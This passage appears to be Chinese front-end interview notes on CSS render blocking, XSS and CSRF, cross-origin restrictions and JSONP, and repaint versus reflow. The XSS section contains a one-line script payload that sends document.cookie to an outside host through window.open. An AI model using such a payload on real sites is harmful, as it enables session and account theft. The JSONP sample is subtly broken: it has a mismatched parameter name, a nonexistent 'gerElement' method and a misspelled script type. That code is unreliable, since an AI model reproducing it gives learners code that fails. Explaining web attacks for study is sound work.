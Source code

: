 CSS不会阻塞DOM的解析，但是会阻塞DOM的绘制。

CSS会阻塞之后的JS的运行。

### 6、XSS和CSRF

#### XSS 

`XSS` 是跨站脚本攻击。
例如：<script>window.open(www.yixiuge.com?content=document.cookie);</script>。也可以写成图片，iframe的形式

### CSRF

`CSRF` 是跨站请求伪造。
攻击者盗用了用户的身份，以用户的名义发送恶意请求，包括：以用户的名义发送邮件，发消息，盗取用户账号等。

### 7、跨域问题场景【细看】

相关网站
DOM同源策略
禁止对不同源页面DOM进行操作
同源指，域名、协议、端口
如果非同源，js脚本执行时浏览器会报错，提示拒绝访问。（可以下载，但是不可以有数据操作）
跨域问题解决
jsonp
原理：通过动态创建script标签,然后利用src属性进行跨域，设置一个回调函数。
// 定义一个fun函数
function fun(fata) {
    console.log(data);
};
// 创建一个脚本，并且告诉后端回调函数名叫fun
var body = document.getElementsByTagName('body')[0];
var script = document.gerElement('script');
script.type = 'text/javasctipt';
script.src = 'demo.js?callback=fun';
body.appendChild(script);
jsonp不能发post请求，只能发get请求。因为它是调用回调函数的方式，在服务器看来只是请求了一个资源。

### 8、重绘 && 重排

一个页面由两部分组成：
- DOM：描述该页面的结构
- render：描述 DOM 节点 (nodes) 在页面上如何呈现

#### 重绘 Repaint

当 DOM 元素的属性发生变化 (如 color) 时, 浏览器会通知 render 重新描绘相应的元素, 此过程称为 repaint。

#### 重排 Reflow

如果该次变化涉及元素布局 (如 width), 浏览器则抛弃原有属性, 重新计算并把结果传递给 render 以重新描绘页面元素, 此过程称为 reflow。

> 重排必定会引发重绘，但重绘不一定会引发重排。   
> 重排对性能的影响要大于重绘。
